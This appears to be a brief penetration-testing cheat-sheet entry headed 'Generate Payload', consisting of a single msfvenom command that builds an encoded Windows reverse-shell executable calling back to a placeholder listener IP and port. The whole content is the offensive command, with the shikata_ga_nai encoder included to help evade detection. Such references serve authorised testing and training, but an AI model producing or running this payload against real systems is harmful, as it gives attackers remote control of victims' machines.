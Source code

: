 # Generate Payload

## Tools

### Msfvenom

#### Windows reverse shell with encoder

```text
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=<Your IP> LPORT=<Listening Port> -f exe -o <Shell Name>.exe
```



